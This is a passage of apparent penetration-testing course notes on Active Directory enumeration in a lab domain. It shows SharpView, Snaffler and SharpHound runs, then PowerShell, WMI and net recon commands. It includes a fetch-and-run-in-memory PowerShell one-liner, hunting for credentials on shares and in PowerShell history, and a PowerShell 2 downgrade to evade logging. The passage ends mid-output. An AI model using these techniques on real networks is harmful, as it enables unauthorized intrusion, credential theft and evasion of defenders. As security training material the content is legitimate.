PS C:\htb> .\SharpView.exe Get-DomainUser -Help

Get_DomainUser -Identity <String[]> -DistinguishedName <String[]> -SamAccountName <String[]> -Name <String[]> -MemberDistinguishedName <String[]> -MemberName <String[]> -SPN <Boolean> -AdminCount <Boolean> -AllowDelegation <Boolean> -DisallowDelegation <Boolean> -TrustedToAuth <Boolean> -PreauthNotRequired <Boolean> -KerberosPreauthNotRequired <Boolean> -NoPreauth <Boolean> -Domain <String> -LDAPFilter <String> -Filter <String> -Properties <String[]> -SearchBase <String> -ADSPath <String> -Server <String> -DomainController <String> -SearchScope <SearchScope> -ResultPageSize <Int32> -ServerTimeLimit <Nullable`1> -SecurityMasks <Nullable`1> -Tombstone <Boolean> -FindOne <Boolean> -ReturnOne <Boolean> -Credential <NetworkCredential> -Raw <Boolean> -UACFilter <UACEnum> 
```

Here you can use SharpView to enumerate information about a specific user, such as the user forend, which you control.

```powershell
PS C:\htb> .\SharpView.exe Get-DomainUser -Identity forend

[Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
[Get-DomainUser] filter string: (&(samAccountType=805306368)(|(samAccountName=forend)))
objectsid                      : {S-1-5-21-3842939050-3880317879-2865463114-5614}
samaccounttype                 : USER_OBJECT
objectguid                     : 53264142-082a-4cb8-8714-8158b4974f3b
useraccountcontrol             : NORMAL_ACCOUNT
accountexpires                 : 12/31/1600 4:00:00 PM
lastlogon                      : 4/18/2022 1:01:21 PM
lastlogontimestamp             : 4/9/2022 1:33:21 PM
pwdlastset                     : 2/28/2022 12:03:45 PM
lastlogoff                     : 12/31/1600 4:00:00 PM
badPasswordTime                : 4/5/2022 7:09:07 AM
name                           : forend
distinguishedname              : CN=forend,OU=IT Admins,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
whencreated                    : 2/28/2022 8:03:45 PM
whenchanged                    : 4/9/2022 8:33:21 PM
samaccountname                 : forend
memberof                       : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share G Drive,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL}
cn                             : {forend}
objectclass                    : {top, person, organizationalPerson, user}
badpwdcount                    : 0
countrycode                    : 0
usnchanged                     : 3259288
logoncount                     : 26618
primarygroupid                 : 513
objectcategory                 : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata          : {3/24/2022 3:58:07 PM, 3/24/2022 3:57:44 PM, 3/24/2022 3:52:58 PM, 3/24/2022 3:49:31 PM, 7/14/1601 10:36:49 PM}
usncreated                     : 3054181
instancetype                   : 4
codepage                       : 0
```

### Shares

... allow users on a domain to quickly access information relevant to their daily roles and share content with their organization. When set up correctly, domain shares will require a user to be domain joined and required to authenticate when accessing the system. Permissions will also be in place to ensure users can only access and see what is necessary for their daily role. Overly permissive shares can potentially cause accidental disclosure of sensitive information, especially those containing medical, legal, personnel, HR, data, etc. In an attack, gaining control over a standard domain user who can access shares such as the IT/infrastructure shares could lead to the disclosure of sensitive data such as configs or authentication files like SSH keys or passwords stored insecurely. You want to identify any issues like these to ensure the customer is not exposing any data to users who do not need to access it for their daily jobs and that they are meeting any legal/regulatory requirements they are subject to. You can use PowerView to hunt for shares and then help you dig through them or use various manual commands to hunt for common strings such as files with ```pass``` in the name. This can be a tedious process, and you may miss things, especially in large environments.

### [Snaffler](https://github.com/SnaffCon/Snaffler)

... is a tool that can help you acquire credentials or other sensitive data in an AD environment. Snaffler works by obtaining a list of hosts within the domain and then enumerating those hosts for shares and readable dirs. Once that is done, it iterates through any directories readable by your user and hunts for files that could serve to better your position within the assessment. Snaffler requires that it be run from a domain-joined host or in a domain-user context.

```bash
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
```

The ```-s``` tells it to print results to the console for you, the ```-d``` specifies the domain to search within, and the ```-o``` tells Snaffler to write results to a logfile. The ```-v``` option is the verbosity level. Typically data is best as it only displays results to the screen, so it's easier to begin looking through the tool runs. Snaffler can produce a considerable amount of data, so you should typically output to file and let it run and then come back to it later. It can also be helpful to provide Snaffler raw output to clients as supplemental data during a pentest as it can help them zero in on high-value shares that would be locked down first.

```powershell
PS C:\htb> .\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data

 .::::::.:::.    :::.  :::.    .-:::::'.-:::::':::    .,:::::: :::::::..
;;;`    ``;;;;,  `;;;  ;;`;;   ;;;'''' ;;;'''' ;;;    ;;;;'''' ;;;;``;;;;
'[==/[[[[, [[[[[. '[[ ,[[ '[[, [[[,,== [[[,,== [[[     [[cccc   [[[,/[[['
  '''    $ $$$ 'Y$c$$c$$$cc$$$c`$$$'`` `$$$'`` $$'     $$""   $$$$$$c
 88b    dP 888    Y88 888   888,888     888   o88oo,.__888oo,__ 888b '88bo,
  'YMmMY'  MMM     YM YMM   ''` 'MM,    'MM,  ''''YUMMM''''YUMMMMMMM   'W'
                         by l0ss and Sh3r4 - github.com/SnaffCon/Snaffler

2022-03-31 12:16:54 -07:00 [Share] {Black}(\\ACADEMY-EA-MS01.INLANEFREIGHT.LOCAL\ADMIN$)
2022-03-31 12:16:54 -07:00 [Share] {Black}(\\ACADEMY-EA-MS01.INLANEFREIGHT.LOCAL\C$)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-MX01.INLANEFREIGHT.LOCAL\address)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\User Shares)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\ZZZ_archive)
2022-03-31 12:17:18 -07:00 [Share] {Green}(\\ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL\CertEnroll)
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.kdb$|289B|3/31/2022 12:09:22 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\GroupBackup.kdb) .kdb
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.key$|299B|3/31/2022 12:05:33 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\ShowReset.key) .key
2022-03-31 12:17:19 -07:00 [Share] {Green}(\\ACADEMY-EA-FILE.INLANEFREIGHT.LOCAL\UpdateServicesPackages)
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.kwallet$|302B|3/31/2022 12:04:45 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\WriteUse.kwallet) .kwallet
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.key$|298B|3/31/2022 12:05:10 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\ProtectStep.key) .key
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.ppk$|275B|3/31/2022 12:04:40 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\StopTrace.ppk) .ppk
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.key$|301B|3/31/2022 12:09:17 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\WaitClear.key) .key
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.sqldump$|312B|3/31/2022 12:05:30 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\DenyRedo.sqldump) .sqldump
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.sqldump$|310B|3/31/2022 12:05:02 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\AddPublish.sqldump) .sqldump
2022-03-31 12:17:19 -07:00 [Share] {Green}(\\ACADEMY-EA-FILE.INLANEFREIGHT.LOCAL\WsusContent)
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.keychain$|295B|3/31/2022 12:08:42 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\SetStep.keychain) .keychain
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.tblk$|279B|3/31/2022 12:05:25 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\FindConnect.tblk) .tblk
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.psafe3$|301B|3/31/2022 12:09:33 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\GetUpdate.psafe3) .psafe3
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.keypair$|278B|3/31/2022 12:09:09 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\UnprotectConvertTo.keypair) .keypair
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.tblk$|280B|3/31/2022 12:05:17 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\ExportJoin.tblk) .tblk
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.mdf$|305B|3/31/2022 12:09:27 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\FormatShow.mdf) .mdf
2022-03-31 12:17:19 -07:00 [File] {Red}<KeepExtExactRed|R|^\.mdf$|299B|3/31/2022 12:09:14 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Development\LockConfirm.mdf) .mdf

<SNIP>
```

You may find passwords, SSH keys, config files, or other data that can be used to further your access. Snaffler color codes the output for you and provides you with a rundown of the file types found in the shares.

### BloodHound

... is an exceptional open-source tool that can identify attack paths within an AD environment by analyzing the relationships between objects.

First, you must authenticate as a domain user from a Windows attack host positioned within the network or transfer the tool to a domain-joined host.

You start by running the SharpHound.exe collector.

```powershell
PS C:\htb> .\SharpHound.exe -c All --zipfilename ILFREIGHT

2022-04-18T13:58:22.1163680-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-04-18T13:58:22.1163680-07:00|INFORMATION|Initializing SharpHound at 1:58 PM on 4/18/2022
2022-04-18T13:58:22.6788709-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2022-04-18T13:58:23.0851206-07:00|INFORMATION|Beginning LDAP search for INLANEFREIGHT.LOCAL
2022-04-18T13:58:53.9132950-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 67 MB RAM
2022-04-18T13:59:15.7882419-07:00|INFORMATION|Producer has finished, closing LDAP channel
2022-04-18T13:59:16.1788930-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2022-04-18T13:59:23.9288698-07:00|INFORMATION|Status: 3793 objects finished (+3793 63.21667)/s -- Using 112 MB RAM
2022-04-18T13:59:45.4132561-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2022-04-18T13:59:45.4601086-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2022-04-18T13:59:45.8663528-07:00|INFORMATION|Status: 3809 objects finished (+16 46.45122)/s -- Using 110 MB RAM
2022-04-18T13:59:45.8663528-07:00|INFORMATION|Enumeration finished in 00:01:22.7919186
2022-04-18T13:59:46.3663660-07:00|INFORMATION|SharpHound Enumeration Completed at 1:59 PM on 4/18/2022! Happy Graphing
```

Next, you can exfiltrate the dataset to your own VM or ingest it into the BloodHound GUI tool.

## Living Off the Land

### Env Commands for Host & Network Recon

First, a few basic environmental comannds can be used to give you more information about the host you are on.

| Command | Result |
| ------- | ------ |
| ```hostname``` | prints the PC's name |
| ```[System.Environment]::OSVersion.Version``` | prints out the OS version and revision level |
| ```wmic qfe get Caption,Description,HotFixID,InstalledOn``` | prints the patches and hotfixes applied to the host |
| ```ipconfig /all``` | prints out network adapter state and config |
| ```echo %USERDOMAIN%``` | displays the domain name to which the host belongs |
| ```echo %logonserver%``` | prints out the name of the DC the host checks in with |

The commands above will give you a quick initial picture of the state the host is in, as well as some basic networking and domain information. You can cover the information above with one command ```systeminfo```.



The ```systeminfo``` command, as seen above, will print a summary of the host's information for you in one tidy output.

> [!TIP]
> Running one command will generate fewer logs, meaning less of a chance you are noticed on the host by a defender.

### Harnessing PowerShell

#### Quick Checks

PowerShell has been around since 2006 and provides Windows sysadmins with an extensive framework for administering all facets of Windows systems and AD environments. It is a powerful scripting language and can be used to dig deep into systems. PowerShell has many built-in functions and modules you can use on an engagement to recon the host and network and send and receive files.

Some helpful PowerShell cmdlets:

| cmdlet | Description |
| ------ | ----------- |
| ```Get-Module``` | lists available modules loaded for use |
| ```Get-ExecutionPolicy -List``` | will print the execution policy settings for each scope on a host |
| ```Set-ExecutionPolicy Bypass -Scope Process``` | this will change the policy for your current process using the ```-Scope``` parameter; doing so will revert the policy once you vacate the process or terminate it; this is ideal because you won't be making permanent change to the victim host |
| ```Get-ChildItem Env: \| ft Key,Value``` | return environment values such as key paths, users, computer information, etc. |
| ```Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt``` | with this string, you can get the specified user's PowerShell history; this can be quite helpful as the command history may contain passwords or point you towards configuration files or scripts that contain passwords |
| ```powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"``` | this is a quick and easy way to download a file from the web using PowerShell and call it from memory |

```powershell
PS C:\htb> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   1.0.1.0    ActiveDirectory                     {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...

PS C:\htb> Get-ExecutionPolicy -List
Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    RemoteSigned


PS C:\htb> whoami
nt authority\system

PS C:\htb> Get-ChildItem Env: | ft key,value

Get-ChildItem Env: | ft key,value

Key                     Value
---                     -----
ALLUSERSPROFILE         C:\ProgramData
APPDATA                 C:\Windows\system32\config\systemprofile\AppData\Roaming
CommonProgramFiles      C:\Program Files (x86)\Common Files
CommonProgramFiles(x86) C:\Program Files (x86)\Common Files
CommonProgramW6432      C:\Program Files\Common Files
COMPUTERNAME            ACADEMY-EA-MS01
ComSpec                 C:\Windows\system32\cmd.exe
DriverData              C:\Windows\System32\Drivers\DriverData
LOCALAPPDATA            C:\Windows\system32\config\systemprofile\AppData\Local
NUMBER_OF_PROCESSORS    4
OS                      Windows_NT
Path                    C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShel...
PATHEXT                 .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC;.CPL
PROCESSOR_ARCHITECTURE  x86
PROCESSOR_ARCHITEW6432  AMD64
PROCESSOR_IDENTIFIER    AMD64 Family 23 Model 49 Stepping 0, AuthenticAMD
PROCESSOR_LEVEL         23
PROCESSOR_REVISION      3100
ProgramData             C:\ProgramData
ProgramFiles            C:\Program Files (x86)
ProgramFiles(x86)       C:\Program Files (x86)
ProgramW6432            C:\Program Files
PROMPT                  $P$G
PSModulePath            C:\Program Files\WindowsPowerShell\Modules;WindowsPowerShell\Modules;C:\Program Files (x86)\...
PUBLIC                  C:\Users\Public
SystemDrive             C:
SystemRoot              C:\Windows
TEMP                    C:\Windows\TEMP
TMP                     C:\Windows\TEMP
USERDOMAIN              INLANEFREIGHT
USERNAME                ACADEMY-EA-MS01$
USERPROFILE             C:\Windows\system32\config\systemprofile
windir                  C:\Windows
```

#### Downgrade PowerShell

Many defenders are unaware that several versions of PowerShell often exist on a host. If not uninstalled, they can still be used. PowerShell event logging was introduced with PowerShell 3.0 and forward. With that in mind, you can attempt to call PowerShell version 2.0 or older. If successful, your actions from the shell will not be logged in Event Viewer. This is a great way for you to remain under the defenders' radar while still utilizing resources built into the hosts to your advantage. Below is an example of downgrading PowerShell.

```powershell
PS C:\htb> Get-host

Name             : ConsoleHost
Version          : 5.1.19041.1320
InstanceId       : 18ee9fb4-ac42-4dfe-85b2-61687291bbfc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> powershell.exe -version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\htb> Get-host
Name             : ConsoleHost
Version          : 2.0
InstanceId       : 121b807c-6daa-4691-85ef-998ac137e469
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\htb> get-module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Script     0.0        chocolateyProfile                   {TabExpansion, Update-SessionEnvironment, refreshenv}
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Content...}
Manifest   3.1.0.0    Microsoft.PowerShell.Utility        {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script     0.7.3.1    posh-git                            {Add-PoshGitToProfile, Add-SshKey, Enable-GitColors, Expand-GitCommand...}
Script     2.0.0      PSReadline                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PSReadLineKeyHandler...
```

You can now see that you are running an older version of PowerShell from the output above. Notice the differece in the version reported. It validates you have successfully downgraded the shell. Check and see if you are still writing logs. The primary place to look is in the PowerShell Operational Log found under ```Applications and Services Logs > Microsoft > Windows > PowerShell > Operational```. All commands executed in your session will log to this file. The Windows PowerShell log located at ```Applications and Services Logs > Windows PowerShell``` is also a good place to check. An entry will be made here when you start an instance of PowerShell. In the image below, you can see the red entries made to the log from the current PowerShell session and the output of the last entry made at 2:12 pm when the downgrade is performed. It was the last entry since your session moved into a version of PowerShell no longer capable of logging. Notice that, that event corresponds with the last event in the Windows PowerShell log entries.



With Script Blocking Language enabled, you can see that whatever you type into the terminal gets sent to this log. If you downgrade to PowerShell V2, this will no longer function correctly. Your actions after will be masked since Script Block Logging does not work below PowerShell 3.0. Notice above in the logs that you can see the commands you issued during a normal shell session, but it stopped after starting a new PowerShell instance in version 2. Be aware that the action of issuing the command ```powershell.exe -version 2``` within the PowerShell session will be logged. So evidence will be left behind showing that the downgrade happened, and a suspicious or vigilant defender may start an investigation after seeing this happen and the logs no longer filling up for that instance. You can see an example of this in the image below. Items in the red box are the log entries before starting the new instance, and the info in the green is the text showing a new PowerShell session was started in HostVersion 2.0.



### Checking Defenses

#### Firewall Checks

```powershell
PS C:\htb> netsh advfirewall show allprofiles

Domain Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Private Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096

Public Profile Settings:
----------------------------------------------------------------------
State                                 OFF
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
```

#### Windows Defender Check

```
C:\htb> sc query windefend

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

Above, you checked if Defender was running.

##### Get-MpComputerStatus

Below you will check the status and configuration settings.

```powershell
PS C:\htb> Get-MpComputerStatus

AMEngineVersion                  : 1.1.19000.8
AMProductVersion                 : 4.18.2202.4
AMRunningMode                    : Normal
AMServiceEnabled                 : True
AMServiceVersion                 : 4.18.2202.4
AntispywareEnabled               : True
AntispywareSignatureAge          : 0
AntispywareSignatureLastUpdated  : 3/21/2022 4:06:15 AM
AntispywareSignatureVersion      : 1.361.414.0
AntivirusEnabled                 : True
AntivirusSignatureAge            : 0
AntivirusSignatureLastUpdated    : 3/21/2022 4:06:16 AM
AntivirusSignatureVersion        : 1.361.414.0
BehaviorMonitorEnabled           : True
ComputerID                       : FDA97E38-1666-4534-98D4-943A9A871482
ComputerState                    : 0
DefenderSignaturesOutOfDate      : False
DeviceControlDefaultEnforcement  : Unknown
DeviceControlPoliciesLastUpdated : 3/20/2022 9:08:34 PM
DeviceControlState               : Disabled
FullScanAge                      : 4294967295
FullScanEndTime                  :
FullScanOverdue                  : False
FullScanRequired                 : False
FullScanSignatureVersion         :
FullScanStartTime                :
IoavProtectionEnabled            : True
IsTamperProtected                : True
IsVirtualMachine                 : False
LastFullScanSource               : 0
LastQuickScanSource              : 2

<SNIP>
```

Knowing what revision your AV settings are at and what settings are enabled/disabled can greatly benefit you. You can tell how often scans are run, if the on-demand threat alerting is active, and more. This is also great info for reporting. Often defenders may think that certain settings are enabled or scans are scheduled to run at certain intervals. If that's not the case, these findings can help them remediate those issues.

### Am I Alone?

WHen landing on a host for the first time, one important thing is to check if you are the only one logged in. If you start taking actions from a host someone else is on, there is the potential for them to notice you. If a popup window launches or a user is logged out of their session, they may report these actions or change their password, and you could lose your foothold.

```powershell
PS C:\htb> qwinsta

 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
 services                                    0  Disc
>console           forend                    1  Active
 rdp-tcp                                 65536  Listen
```

### Network Information

Now that you have a solid feel for the state of your host, you can enumerate the network settings for your host and identify any potential domain machines or services you may want to target next.

| Networking Command | Description |
| ------------------ | ----------- |
| ```arp -a``` | lists all known hosts stored in the arp table |
| ```ipconfig /all``` | prints out adapter settings for the host; you can figure out the network segment from here |
| ```route print``` | displays the routing table identifying known networks and layer three routes shared with the host |
| ```netsh advfirewall show allprofiles``` | displays the status of the host's firewall; you can determine if it is active and filtering traffic |

Commands such as ```ipconfig /all``` and ```systeminfo``` show you some basic networking configs. Two more important commands provide you with a ton of valuable data and could help you further your access. ```arp -a``` and ```route print``` will show you what hosts the box you are on is aware of and what networks are known to the host. Any networks that appear in the routing table are potential avenues for lateral movement because they are accessed enough that a route was added, or it has administratively been set there so that the host knows how to access resources on the domain. These two commands can be escpecially helpful in the discovery phase of a black box assessment where you have to limit your scanning.

#### arp -a

```powershell
PS C:\htb> arp -a

Interface: 172.16.5.25 --- 0x8
  Internet Address      Physical Address      Type
  172.16.5.5            00-50-56-b9-08-26     dynamic
  172.16.5.130          00-50-56-b9-f0-e1     dynamic
  172.16.5.240          00-50-56-b9-9d-66     dynamic
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static

Interface: 10.129.201.234 --- 0xc
  Internet Address      Physical Address      Type
  10.129.0.1            00-50-56-b9-b9-fc     dynamic
  10.129.202.29         00-50-56-b9-26-8d     dynamic
  10.129.255.255        ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.251           01-00-5e-00-00-fb     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static
```

#### route print

```powershell
PS C:\htb> route print

===========================================================================
Interface List
  8...00 50 56 b9 9d d9 ......vmxnet3 Ethernet Adapter #2
 12...00 50 56 b9 de 92 ......vmxnet3 Ethernet Adapter
  1...........................Software Loopback Interface 1
===========================================================================

IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0       172.16.5.1      172.16.5.25    261
          0.0.0.0          0.0.0.0       10.129.0.1   10.129.201.234     20
       10.129.0.0      255.255.0.0         On-link    10.129.201.234    266
   10.129.201.234  255.255.255.255         On-link    10.129.201.234    266
   10.129.255.255  255.255.255.255         On-link    10.129.201.234    266
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    331
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    331
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    331
       172.16.4.0    255.255.254.0         On-link       172.16.5.25    261
      172.16.5.25  255.255.255.255         On-link       172.16.5.25    261
     172.16.5.255  255.255.255.255         On-link       172.16.5.25    261
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    331
        224.0.0.0        240.0.0.0         On-link    10.129.201.234    266
        224.0.0.0        240.0.0.0         On-link       172.16.5.25    261
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    331
  255.255.255.255  255.255.255.255         On-link    10.129.201.234    266
  255.255.255.255  255.255.255.255         On-link       172.16.5.25    261
  ===========================================================================
Persistent Routes:
  Network Address          Netmask  Gateway Address  Metric
          0.0.0.0          0.0.0.0       172.16.5.1  Default
===========================================================================

IPv6 Route Table
===========================================================================

<SNIP>
```

### Windows Management Instrumentation (_WMI_)

... is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts.

| Command | Description |
| ------- | ----------- |
| ```wmic qfe get Caption,Description,HotFixID,InstalledOn``` | prints the patch level and description of the Hotfixes applied |
| ```wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List``` | displays basic host information to include any attributes within the list |
| ```wmic process list /format:list``` | a listing of all processes on host |
| ```wmic ntdomain list /format:list``` | displays information about the domain and DCs |
| ```wmic useraccount list /format:list``` | displays information about all local accounts and any domain accounts that have logged into the device |
| ```wmic group list /format:list``` | information about all local groups |
| ```wmic sysaccount list /format:list``` | dumps information about any system accounts that are being used as service accounts |

Below you can see information about the domain and the child domain, and the external forest that your current domain has a trust with. Read this [cheatsheet](https://gist.github.com/xorrior/67ee741af08cb1fc86511047550cdaf4).

```powershell
PS C:\htb> wmic ntdomain get Caption,Description,DnsForestName,DomainName,DomainControllerAddress

Caption          Description      DnsForestName           DomainControllerAddress  DomainName
ACADEMY-EA-MS01  ACADEMY-EA-MS01
INLANEFREIGHT    INLANEFREIGHT    INLANEFREIGHT.LOCAL     \\172.16.5.5             INLANEFREIGHT
LOGISTICS        LOGISTICS        INLANEFREIGHT.LOCAL     \\172.16.5.240           LOGISTICS
FREIGHTLOGISTIC  FREIGHTLOGISTIC  FREIGHTLOGISTICS.LOCAL  \\172.16.5.238           FREIGHTLOGISTIC
```

### Net Commands

... can be beneficial to you when attempting to enumerate information from the domain. These commands can be used to query the local host and remote hosts, much like the capabilities provided by WMI. You can list information such as:

- local and domain users
- groups
- hosts
- specific users in groups
- domain controllers
- password requirements

Keep in mind that net.exe commands are typically monitored by EDR solutions and can quickly give up your location if your assessment has an evasive component. Some organizations will even configure their monitoring tools to throw alerts if certain commands are run by users in specific OUs, such as a Marketing Associate's account running commands such as ```whoami```, and ```net localgroup administrators```, etc. This could be an obvious red flag to everyone monitoring the network heavily.

#### Listing Domain Groups

```powershell
PS C:\htb> net group /domain

The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

Group Accounts for \\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
-------------------------------------------------------------------------------
*$H25000-1RTRKC5S507F
*Accounting
*Barracuda_all_access
*Barracuda_facebook_access
*Barracuda_parked_sites
*Barracuda_youtube_exempt
*Billing
*Billing_users
*Calendar Access
*CEO
*CFO
